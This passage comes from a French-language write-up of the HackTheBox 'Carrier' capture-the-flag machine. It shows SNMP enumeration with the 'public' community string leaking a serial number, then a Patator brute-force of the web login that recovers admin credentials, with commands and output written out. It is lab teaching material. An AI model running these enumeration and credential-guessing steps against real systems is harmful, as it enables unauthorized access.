 ```plain
PHP Version 7.0.30-0ubuntu0.16.04.1
Linux web 4.15.0-24-generic #26-Ubuntu SMP Wed Jun 13 08:44:47 UTC 2018 x86_64
www-data(33)/33
/var/www/html
```

On trouve aussi un dossier *doc* à la racine contenant deux fichiers énigmatiques.  

Le premier est un diagramme réseau :  

![HackTheBox Carrier CTF BGP diagram](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/carrier/diagram_for_tac.png)

Le second fichier est un document PDF qui énumère des codes d'erreurs. On y trouve les deux codes vu précédemment :  

![HackTheBox Carrier CTF error codes](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/carrier/carrier_error_codes.png)

Il ne nous reste plus qu'à trouver ce numéro de châssis... Est-ce que... ?  

En réalité après un scan UDP on voit un port bien connu pour son côté bavard :  

```plain
Nmap scan report for 10.10.10.105
Host is up (0.037s latency).
Not shown: 902 open|filtered ports, 97 closed ports
PORT    STATE SERVICE
161/udp open  snmp
```

Quand on le questionne on obtient exactement ce que l'on désire :  

```bash
$ snmpwalk -c public -v 1 10.10.10.105
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB
```

Reste à voir sous quelle forme utiliser ça...  

J'ai rassemblé dans un fichier texte différentes permutations de ce code (en omettant ou pas le dièse, avec ou sans le NET\_, etc) et j'ai passé le tout à *Patator* :  

```bash
$ patator http_fuzz url="http://10.10.10.105/" method=POST body="username=FILE0&password=FILE1" 0=words.txt 1=words.txt -x ignore:clen=1538
10:10:28 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-27 10:10 CET
10:10:28 patator    INFO -
10:10:28 patator    INFO - code size:clen       time | candidate                          |   num | mesg
10:10:28 patator    INFO - -----------------------------------------------------------------------------
10:10:32 patator    INFO - 302  344:0          0.047 | admin:NET_45JDX23                  |   507 | HTTP/1.1 302 Found
10:10:33 patator    INFO - Hits/Done/Skip/Fail/Size: 1/676/0/0/676, Avg: 155 r/s, Time: 0h 0m 4s
```

